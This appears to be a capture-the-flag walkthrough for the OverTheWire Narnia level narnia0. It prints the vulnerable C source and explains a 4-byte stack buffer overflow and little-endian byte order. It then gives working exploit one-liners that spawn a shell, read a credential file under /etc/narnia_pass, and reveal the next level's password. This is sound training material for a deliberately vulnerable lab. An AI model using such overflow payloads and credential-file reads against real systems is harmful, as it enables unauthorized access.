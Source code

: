 
# narnia0 -> narnia1 Guide

## Connecting to the Server
Start by connecting to the OverTheWire Narnia game server:

```bash
> ssh narnia0@narnia.labs.overthewire.org -p 2226
```

## Understanding the Vulnerability
The source code for the narnia0 program contains a buffer overflow vulnerability:
```bash
> narnia0@narnia:~$ cat /narnia/narnia0.c
```
`/narnia/narnia0.c`
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    long val = 0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s", buf);

    printf("buf: %s\n", buf);
    printf("val: 0x%08lx\n", val);

    if (val == 0xdeadbeef) {
        setreuid(geteuid(), geteuid());
        system("/bin/sh");
    } else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    
    return 0;
}
```

## Key Points
* Buffer Size: `char buf[20];` allocates 20 bytes for buf.
* Input Size: `scanf("%24s", buf);` reads up to 24 bytes into buf, allowing an overflow of 4 bytes.
* Initial Value: val is initially set to `0x41414141`, which corresponds to the string `"AAAA"`.
* Goal: Modify val to `0xdeadbeef` to gain shell access.

## Explanation
* Buffer Overflow: The mismatch between the buffer size (20 bytes) and the allowed input size (24 bytes) enables overwriting adjacent memory, specifically the val variable.
* Endianness: On x86 and x86-64 architectures, multi-byte values are stored in little-endian order. Thus, to set val to `0xdeadbeef`, the input needs to be provided in reverse order: `\xef\xbe\xad\xde`.

## Demonstrating the Overflow
Initial Test with 20 A's
First, test the program with 20 'A's to observe the behavior:
```bash
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAA
buf: AAAAAAAAAAAAAAAAAAAA
val: 0x41414100
WAY OFF!!!!
```

Modifying val with 20 A's and 4 B's
Next, try to change val by adding 20 'A's and 4 'B's:
```bash
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB
buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```

## Exploiting the Vulnerability
To exploit the buffer overflow, input 20 'A's followed by the little-endian representation of 0xdeadbeef:
```bash
narnia0@narnia:~$ python -c 'print("A"*20 + "\xef\xbe\xad\xde")' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```

## Obtaining the narnia1 Password
With the buffer overflow successful, escalate privileges to read the password for narnia1:
```bash
narnia0@narnia:~$ (python -c 'print("A"*20 + "\xef\xbe\xad\xde")'; echo 'cat /etc/narnia_pass/narnia1') | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
efeidiedae       # password for narnia1
```

## Manual Approach
Alternatively, generate the payload, copy it, and use it manually:
```bash
narnia0@narnia:/narnia$ (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\xaf';cat)
AAAAAAAAAAAAAAAAAAAAﾭޯ
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭޯ
buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
$ whoami
narnia1
$ cat /etc/narnia_pass/narnia1
efeidiedae       # password for narnia1
```

## Summary
* Vulnerability: Buffer overflow due to scanf allowing more input than the buffer can hold.
* Exploit: Overwrite val to `0xdeadbeef` using crafted input.
* Result: Gain shell access and retrieve the password for the next level.